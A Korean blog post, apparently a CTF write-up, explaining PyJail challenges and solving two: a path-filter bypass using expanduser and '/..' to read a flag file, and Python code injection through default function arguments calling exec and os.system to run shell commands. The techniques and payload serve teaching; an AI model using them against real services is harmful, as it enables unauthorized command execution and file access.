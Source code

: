 ```yaml
---
layout: post
title: ! ' Hello, PyJail! '
excerpt_separator: <!--more-->
tags:
  - KRater
  - Write-up
  - CTF
  - ChristmasCTF2017
  - noxCTF2018
  - python
---
```


저는 오늘 PyJail 문제 2개를 들고왔습니다. 그럼 저희 같이 PyJail이 뭔지 알아보고, 그리고 이와 관련된 문제들을 풀어보면서 실전 감각을 익혀보도록 합시다.

<!--more-->

## PyJail 이란?

Python Jail, 또는 PyJail 이라고 불리우는 분야는 그 이름에서도 유추할 수 있듯, 파이썬(Python) + 감옥(Jail)의 합성어입니다. 이 분야의 문제들은 파이썬으로 동작하는 어플리케이션에서 악의적인 입력값을 통해 제한 조건을 벗어나 악의적인 방향으로 흐름을 조작하는 것이 목표입니다. 기본적으로 CTF의 가장 쉬운 문제 중 일부를 담당하고 있죠. 대부분은 `misc`로서 출제되지만, 어려운 문제의 경우, 또는 출제자의 의도에 따라 `pwnable`로도 충분히 분류될 수 있는 분야입니다. PyJail 분야의 문제를 풀기 위해서는 먼저 `Python`의 잘 알려진 몇 가지 특징에 대해서 짚고 넘어갈 필요가 있습니다.

`Python`은 모든 분들이 알고 있듯이, `interpreted language`입니다. 이는 언어로 작성된 코드를 미리 컴파일하여 실행 코드로 변환한 뒤 실행하는 `compiled language`와는 상반되게, 인터프리터가 언어를 읽어들이면서 바로 해석하고 실행한다는 특징을 가지고 있습니다. 또한 `dynamic typing`을 지원합니다. 이는 변수, 표현식, 함수, 모듈 등이 런타임에 결정된다는 뜻입니다. 이 둘은 매우 중요한 특징인데, 어플리케이션에 악의적인 유저 입력을 넣고 이를 실행시키는 과정이 다른 언어들에 비해서 크게 자유로운 편이라는 것입니다. 이는 문제를 풀어보면서 자세히 알아가보도록 합시다.

마지막으로 Python 2 버전과 Python 3 버전은 약간의 문법 차이가 존재한다는 특징도 알아둬야 합니다. 최신 Python 3 문법을 많이 사용하기는 하지만, 여전히 몇 개의 모듈들은 Python 2 버전만을 지원하므로 이는 알아둬야 하는 특징입니다. 예를 들면 Python 2 버전에서 다음과 같은 코드가 동작합니다.

```python
>>> print "hello, python2!"
hello, python2!
```

그렇지만 Python 3 에서는 에러를 뿜어내면서 동작하지 않습니다. Python 3 버전은 다음과 같이 동작합니다.

```python
>>> print "hello, python3!"
  File "<stdin>", line 1
    print "hello, python3!"
                          ^
SyntaxError: Missing parentheses in call to 'print'
>>> 
>>> print ("hello, python3!")
hello, python3!
```

이러한 문법 차이는 PyJail 문제를 풀 때 고려해야 할 사항 중 하나입니다. 그렇다면 실제 CTF에서는 어떻게 문제가 나왔는지 확인 해 보도록 합시다. 문제를 풀 때에는 제 의식의 흐름을 좇아갑니다.

## [2017 Christmas CTF] Everyday is Christmas

지금 소개해드릴 문제는 2017년 Christmas CTF에 출제된 문제로, 제가 처음으로 CTF 기간 내에 푼 문제이기도 합니다. 왜 크리스마스에 동아리방에서 해당 문제를 붙들고 있었는지는 넘어가시고... 문제는 CTF 종료된 후 다른 서버에 이식해서 풀었습니다.

![]({{ site.baseurl }}/images/KRater/2018-09-28-Hello_Pyjail/pic01.PNG)

해당 프로그램의 컨트롤 플로우는 위 그림과 같습니다. 간단하게 다시 설명하면, `chdir` 명령어를 통해 `working directory`를 `/tmp` 디렉토리로 바꿔버린 후, 사용자 입력을 `get_clean_path`라는 함수를 통해 검열합니다. 검열을 마치면 사용자 입력을 `path`로 받아들여서 해당 디렉토리 안의 파일을 모조리 출력해주고, 다시 `get_clean_path`를 이용해서 사용자 입력을 검열한 뒤 입력과 일치하는 파일 이름을 찾아서 이 파일의 내용을 출력해주는, 아주 간단한 루틴을 가지고 있습니다.

![]({{ site.baseurl }}/images/KRater/2018-09-28-Hello_Pyjail/pic02.PNG)

`get_clean_path`는 위와 같군요. 필터되는 내용을 보니 etc, proc, dev, passwd... 등등 시스템과 관련있는 디렉토리/파일들에 대해서 검열을 수행합니다. 그런데 왜 `home`과 `~`까지 검열을 수행할까요? `home directory`쪽에 무언가 있을 것 같다는 예감을 들게 합니다. 우리의 `working directory`도 `home directory`와는 한참 떨어지는 `/tmp`에 있구요. `./`이 안되니까 이전 디렉토리로 가려고 `../` 도 사용하기 어렵습니다.

그런데 반환할 때, `path.expanduser`라는 함수를 이용해서 반환을 해 줍니다. 그럼 이 함수가 무엇을 하는 녀석인지 `documentation`을 찾아보는 게 좋겠군요.

![]({{ site.baseurl }}/images/KRater/2018-09-28-Hello_Pyjail/pic03.PNG)

Unix에서 `path.expanduser`는 `~`또는 `~user`를 `user`의 `home directory`로 바꿔주는 역할을 한다고 되어있네요. 예를 들면 `~KRater`와 같이 인자가 들어오면, 이를 `/home/KRater`와 같이 바꾸어주는 역할입니다. 이를 활용하면 필터링을 우회할 수 있지 않을 것 같나요? 먼저 `~`을 통해서 서버의 홈 디렉토리를 열어보려고 시도했습니다.

![]({{ site.baseurl }}/images/KRater/2018-09-28-Hello_Pyjail/pic04.PNG)

그러자 파이썬의 오류메시지가 친절하게도 `/home/user`가 디렉토리라서 읽을 수 없다고 알려줍니다. 이렇게 오류메시지를 주는 PyJail 문제는 매우 친절한 편입니다. 이를 이용해서 많은 정보를 얻을 수 있기 때문이죠. 그리고 아까 이전 디렉토리로 가려고 `../`을 사용하기 어렵다는 말을 했었는데, `/..`는 막혀있지 않는다는 점에 주목해서 다음과 같이 할 수 있습니다.

![]({{ site.baseurl }}/images/KRater/2018-09-28-Hello_Pyjail/pic05.PNG)

딱 봐도 수상해보이는 플래그 유저가 있습니다. (원래라면 플래그 유저랑 user 둘 만 있어야 하는데 다른 서버에다가 임시로 문제를 설치해서 유저가 좀 많습니다. 그래도 문제 푸는데는 지장이 없어요.) 그렇담 이제 해당 유저의 홈 디렉토리를 읽고, 그 안에 있는 파일도 읽을 수 있게됩니다.

![]({{ site.baseurl }}/images/KRater/2018-09-28-Hello_Pyjail/pic06.PNG)

어때요, 참 쉽죠?

## [2018 noxCTF] Python for fun

다음 문제는 2018 noxCTF에 출제되었던 Python for fun 이라는 문제입니다.

![]({{ site.baseurl }}/images/KRater/2018-09-28-Hello_Pyjail/pic07.PNG)

문제가 위와 같이 나와있는데, 요약해보면 파이썬 공부용 웹사이트를 만들었다는 것과, python3를 활용한다는 등의 정보를 알 수 있습니다. 해당 웹사이트로 들어가 볼까요?

![]({{ site.baseurl }}/images/KRater/2018-09-28-Hello_Pyjail/pic08.PNG)

크게 세가지의 메뉴가 있습니다.

1. fix the code : 코드에서 틀린 부분을 찾습니다. (객관식)
2. match signature to body : 빠진 부분을 넣습니다. (**주관식**)
3. what the code returns : 코드가 무슨 값을 반환하는지 추측합니다. (객관식)

유저 입력을 객관식으로 넣는것도 가능하겠지마는, 원하는 값을 마음껏 넣을 수 있는건 주관식이겠죠? 주관식 문제를 들어가보았습니다.

![]({{ site.baseurl }}/images/KRater/2018-09-28-Hello_Pyjail/pic09.PNG)

함수 인자에 빠진 부분을 채워넣는 문제군요. 인터프리터가 서버에서 직접 실행되서 다음과 같은 코드를 실행하는 것 같습니다.

```python
def func(a, b) :
    c = a + b
    return c

print (func(10, 12) == 22)

True
```

이 함수가 실행된 결과가 True, False 등으로 나타나지만 별 의미없습니다. 여기서 중요한건 인터프리터가 서버에서 직접 우리가 입력한 값을 포함한 코드를 실행한다는 것이죠. 다음과 같은 코드는 어떨까요?

```python
def func(x, y, a=20, b=2, d=1, e=1, f=1) :
	c = a + b
	return c

print (func(10, 12) == 22)

True
```

역시 True로 나타나는 구문입니다. 어, 뭔가 이상하죠? 저는 x와 y에 10, 12를 넣었는데 True가 나타납니다. 이는 a와 b를 미리 결정된 값을 갖는 인자로 선언했기 때문입니다. 파이썬은 인자에 default값을 결정할 수 있습니다. 이는 호출 시 인자의 값을 결정하지 않더라도, 이를 자동으로 default값을 따르도록 만들어주는 아주 편리한 기능입니다. 그렇다면 이렇게 생각해 봅시다. 호출할 때 함수의 리턴값을 default로 만들 순 없을까요?

```python
def func(x, y, a=20, b=2, d=print("hello, world!")) :
    c = a + b
    return c

print (func(10, 12) == 22)

hello, world!
True
```

아주 잘 작동하는군요. print 함수의 결과로 출력된 문자열을 볼 수 있습니다. 그렇다면 그냥 우리가 원하는 함수를 실행시킬 수 있게 된 것이죠.

```python
def fun(a, b, x=exec('import os'), y=os.system('ls -la')):
    c = a + b
    return c

print(fun(10, 12) == 22)

total 8
drwxr-xr-x 1 root root  18 Sep 13 06:46 .
drwxr-xr-x 1 root root  17 Sep  8 23:27 ..
-r--r--r-- 1 root root  23 Sep  5 16:45 FLAG
dr--r--r-- 1 root root 168 Sep 13 06:46 learn_python.py
-r--r--r-- 1 root root 563 Sep  5 16:45 manage.py
dr--r--r-- 1 root root  74 Sep 13 06:46 python_ctf_thing
dr--r--r-- 1 root root 136 Sep 13 06:46 templates
True
```

`exec` 함수로 `import os`구문을 실행시킨 뒤 `os.system` 함수를 실행하면 쉘 명령을 실행시킬 수 있습니다. FLAG를 찾을 수 있네요. cat 명령어를 실행시켜서 플래그를 읽으면 됩니다.



## 마치며

지금까지 기본적인 PyJail 문제들을 풀어보았습니다. PyJail 분야가 CTF에서 가장 쉬운 문제들을 담당하고 있다고 말은 했지만, 생각보다 훨씬 점수 배율이 높은 문제들도 있습니다. 파이썬에 익숙한 사람일수록 이 문제들의 체감 난이도는 급락하기 때문에 CTF에서 점수를 내기에 좋을것입니다. 그럼, 모두 즐거운 공부 되시기 바랍니다 ^0^